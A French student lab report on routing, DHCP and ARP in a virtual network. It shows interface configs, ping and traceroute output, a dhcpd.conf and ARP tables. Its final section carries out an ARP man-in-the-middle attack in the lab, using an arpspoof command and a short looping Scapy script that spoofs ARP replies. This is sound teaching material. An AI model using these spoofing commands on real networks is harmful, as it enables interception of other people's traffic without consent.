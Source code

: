 # TP2 : Routage, DHCP et DNS
  

# I. Routage
  

🌞 **Configuration de `router.tp2.efrei`**

La config :
```
[root@localhost ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9f:aa:bd brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.56/24 brd 192.168.122.255 scope global dynamic noprefixroute enp0s3
       valid_lft 3533sec preferred_lft 3533sec
    inet6 fe80::a00:27ff:fe9f:aabd/64 scope link
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:15:7f:f6 brd ff:ff:ff:ff:ff:ff
```
Le ping fonctionne :
```
[diego@localhost ~]$ ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=30.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=115 time=28.2 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=115 time=31.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=115 time=29.1 ms
``` 

🌞 **Configuration de `node1.tp2.efrei`**

Conf:
```
VPCS> show

NAME   IP/MASK              GATEWAY           MAC                LPORT  RHOST:PORT
VPCS1  10.2.1.1/24          255.255.255.0     00:50:79:66:68:00  20006  127.0.0.1:20007
       fe80::250:79ff:fe66:6800/64

```
```
VPCS> ping 10.2.1.254/24

84 bytes from 10.2.1.254 icmp_seq=1 ttl=64 time=7.378 ms
84 bytes from 10.2.1.254 icmp_seq=2 ttl=64 time=5.540 ms
84 bytes from 10.2.1.254 icmp_seq=3 ttl=64 time=5.916 ms
84 bytes from 10.2.1.254 icmp_seq=4 ttl=64 time=5.287 ms
84 bytes from 10.2.1.254 icmp_seq=5 ttl=64 time=5.872 ms
```
Ajout de la route par défaut
```
VPCS : 10.2.1.1 255.255.255.0 gateway 10.2.1.254
```

```
VPCS> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=39.631 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=40.686 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=31.989 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=114 time=34.715 ms
```
Traceroute :
```
VPCS> trace 8.8.8.8
trace to 8.8.8.8, 8 hops max, press Ctrl+C to stop
 1   10.2.1.254   5.252 ms  6.293 ms  4.752 ms
 2   192.168.122.1   11.587 ms  8.636 ms  7.173 ms
 3   10.0.3.2   12.147 ms  11.863 ms  11.110 ms
 4     *  *  *
 5     *  *  *
 6     *  *  *
 7     *  *  *
 8     *  *  *
```

🌞 **Afficher la CAM Table du switch**

```
VPCS> show mac address-table
-------------------------------------------

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    0050.7966.6800    DYNAMIC     Et0/1
   1    0800.2715.7ff6    DYNAMIC     Et0/0
Total Mac Addresses for this criterion: 2
```

# II. Serveur DHCP  

🌞 **Install et conf du serveur DHCP** sur `dhcp.tp2.efrei`
```
[root@localhost ~]# cat /etc/dhcp/dhcpd.conf

authoritative;

subnet 10.2.1.0 netmask 255.255.255.0 {
    range 10.2.1.10 10.2.1.253;
    option broadcast-address 10.2.1.255;
    option routers 10.2.1.254;
    option domain-name-servers 1.1.1.1;
}
```

🌞 **Test du DHCP** sur `node1.tp2.efrei`
```
Executing the startup file

DDORA IP 10.2.1.10/24 GW 10.2.1.254

Hostname is too long. (Maximum 12 characters)

VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```
🌟 **BONUS**
```
VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 1.1.1.1
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```

🌞 **Wireshark it !**

[échange DORA](échange_DHCP_DORA.pcapng)

# III. ARP
## 1. Les tables ARP
🌞 **Affichez la table ARP de `router.tp2.efrei`**
```
[root@localhost ~]# ip neighbor
10.2.1.253 dev enp0s8 lladdr 08:00:27:bb:d8:e2 REACHABLE
10.2.1.10 dev enp0s8 lladdr 00:50:79:66:68:00 STALE
192.168.122.1 dev enp0s3 lladdr 52:54:00:24:5d:59 REACHABLE
```
🌞 **Capturez l'échange ARP avec Wireshark**
[échange ARP](echange_ARP.pcapng)
## 2. ARP poisoning
🌞 **Envoyer une trame ARP arbitraire**
```
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:59:94:8e brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.4/24 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 86371sec preferred_lft 86371sec
    inet6 fe80::a00:27ff:fe59:948e/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```
🌞 **Mettre en place un ARP MITM**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w net.ipv4.ip_forward=1
```
```
┌──(kali㉿kali)-[~]
└─$ sudo arpspoof -i eth0 -t 10.2.1.10 10.2.1.254 -r
8:0:27:6e:e4:5f 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:6e:e4:5f
8:0:27:6e:e4:5f 8:0:27:54:d3:73 0806 42: arp reply 10.2.1.10 is-at 8:0:27:6e:e4:5f
```
🌞 **Capture Wireshark `arp_mitm.pcap`**

[arp_mitm](arp_mitm.pcap.pcapng)
🌞 **Réaliser la même attaque avec Scapy**
```
from scapy.all import *

while True:
        send(ARP(pdst="10.2.1.10", psrc="10.2.1.254"))
        send(ARP(pdst="10.2.1.254", psrc="10.2.1.10"))
```